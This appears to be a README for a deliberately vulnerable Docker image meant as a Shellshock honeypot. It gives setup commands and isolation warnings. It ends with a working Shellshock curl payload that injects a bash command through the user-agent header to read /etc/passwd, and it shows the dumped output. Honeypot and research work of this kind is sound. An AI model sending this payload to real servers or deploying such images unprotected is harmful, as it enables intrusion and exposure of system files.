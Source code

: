 ### Shellshock

As this is in the Honey Net branch, you should assume that it is meant for creation of Honey Pots only.

You should never expose this build in your actual network unless you take proper precautions.

Since this is a well known vulnerability, it will do well in a Honey Pot, more specifically, it will be useful to filter out typical scanners from someone that is actually trying to exploit your network.

When this kind of action is logged in whatever solution you want to use, you can blacklist that IP before it continues attacking the rest of your network.

Since attackers usually go for weaker targets first, they should focus on this kind of application before anything else, which will give you ample time to prepare and blacklist. This can also serve for re-search purposes, as depending on your logging software, you can log what the attacker is doing once they gain access.

INSTRUCTIONS:

1. Follow the links and instructions on my Docker account:

https://hub.docker.com/r/nksnksnks/shellshock/

https://store.docker.com/community/images/nksnksnks/shellshock

Pull the image from here with:

```
docker pull nksnksnks/shellshock
````

If this is successfull, skip to step 3 and add the appropriate image name or better yet follow the instructions on the Link above.

If for some reason you can't pull and wan't do to it manually, follow the steps below.

2. Download all of the files from the repository, including the vulnerable application.

Then please extract both tar.gz files in the same directory.

3. After your image is successfully built, you can raise it with:

```
sudo docker run -d -p 8080:80 <docker-image-name>
```

6. To enter your new container and install whatever logging system you want, you can do the following:

```
docker exec -u 0 -it <container-name> bash
```

7. Congratulations, you have a working vulnerable app.

___NOTE: The OS on which this was tested was Ubuntu 16.04 LTS with Docker CE installed.___

___NOTE 2: The image used from Docker Hub is Ubuntu based, so any logging solution that you can think of that will work with Ubuntu will probably work for you, only thing to keep in mind is the ports you'll need to add for said solution.___

___NOTE 3: Make sure you limit your containers resources and security so it doesn't spread to your host in any way.___

Result:

```
root@honey-net-worker1:~# curl -H                                       \
> "user-agent:                                  \
> () { :; }; echo; echo;                        \
> /bin/bash -c 'cat /etc/passwd'"               \
> http://localhost:8080/cgi-bin/test-page.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
```

NOTE: Influenced and modified version from:

https://github.com/Zenithar/docker-shellshockable
